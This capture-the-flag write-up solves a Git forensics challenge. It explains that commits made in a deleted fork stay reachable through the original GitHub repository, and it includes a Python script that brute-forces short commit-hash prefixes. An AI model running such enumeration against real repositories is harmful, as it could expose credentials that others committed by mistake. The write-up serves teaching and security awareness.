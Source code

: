 # 2 Legit 2 Quit

##  Forensics

### I created a flag in another users repo by mistake.  I deleted the fork but they told me it's still there!  Can you "Hammer" on this for a bit?  Oh, the repo is https://github.com/lukasew/nothing2see.  This is too le-Git too quit. Oh, I think my commit id started with 'e'.

This "vulnerability" is by design in Git.  The TL;DR for this challenge is that a commit on a repo clone will live on even if you delete it.  To try this at home, clone a repo, make a commit to your local copy, and delete it the clone.  If you search for the commit hash in the original repo you'll find your commit!  

The issue is if I put things like passwords, or Cloud account credentials in the clone and committed them, they are search able in the original repo.  Randomly searching would be difficult and Git will eventually rate limit or ban you from searching.  If you have the beginning of the commit hash, for instance the letter `e` you only need to find a few more characters.

There is a John Hammond [video about this](https://youtu.be/DYdMXwDfRdA)

I wrote this script to search for the beginning of the commit id:

```python
import itertools
import requests

# Hex characters"
chars = 'abcdef0123456789'

# This returns all possible `length` character string combinations of `chars` 
#   e.g. for "ab", 2 would produce aa, ab, ba, bb
def all_possible(chars, length):
    yield from itertools.product( *([chars] * length))

# Iterate a combination of 3 hex characters prepend the letter `e` to the beginning, look for non-404 status
for p in all_possible(chars, 3):
    short_hash = 'e' + ''.join(p)
    url = f"https://github.com/lukasew/nothing2see/commit/{short_hash}"
    r = requests.get(url)

    print(f"trying {short_hash}...")

    if r.status_code != 404:
        print(f'Short hash {short_hash} gave status {r.status_code} for URL {r.url}')
        break
```

Running it eventually finds the commit:

```sh
trying edab...
trying edac...
trying edad...
trying edae...
Short hash edae gave status 200 for URL https://github.com/lukasew/nothing2see/commit/edae
```
Commit id edaeb6e36f31b7f5b5b8f5de3ec8fa52771ff819

![pull_request](./pull_request.png)

**teractf{h4mm3r_d0nt_hurt_th3m}**

